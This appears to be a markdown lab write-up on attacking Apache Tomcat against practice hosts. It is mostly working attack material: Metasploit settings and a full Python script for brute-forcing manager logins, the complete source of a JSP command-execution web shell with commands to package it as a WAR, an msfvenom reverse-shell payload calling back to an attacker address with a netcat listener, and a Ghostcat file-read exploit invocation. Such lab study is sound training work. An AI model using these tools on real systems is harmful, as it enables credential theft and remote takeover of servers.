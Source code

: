 # Attacking Tomcat

Let's start by brute-forcing the Tomcat manager page on the Tomcat instance at `http://web01.inlanefreight.local:8180`

## Tomcat Manager - Login Brute Force

Brute force can be done in any ways, can be done using metasploit, burp intruder, simple shell script or any other tool of your choice.

End result should be a brute forced Tomcat manager login credentials.

### Using Metasploit

use **auxiliary/scanner/http/tomcat_mgr_login**

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

hit **run**

### Using python script

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

Invoke like this:

```bash
python3 mgr_brute.py  -h
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

## Tomcat Manager - WAR File Upload

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

create a malicous WAR file and deploy:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

If we click on backup, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a 404 Not Found error. We need to specify the cmd.jsp file in the URL as well. Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server. From here, we could upgrade our web shell to an interactive reverse shell and continue.

### Using msfvenom to generate a reverse shell payload

use **java/jsp_shell_reverse_tcp**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

start a netcat on another terminal:

```bash
nc -lvnp 4443
```

## CVE-2020-1938 : Ghostcat

All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.

[PoC for Ghostcat](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

```bash
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```
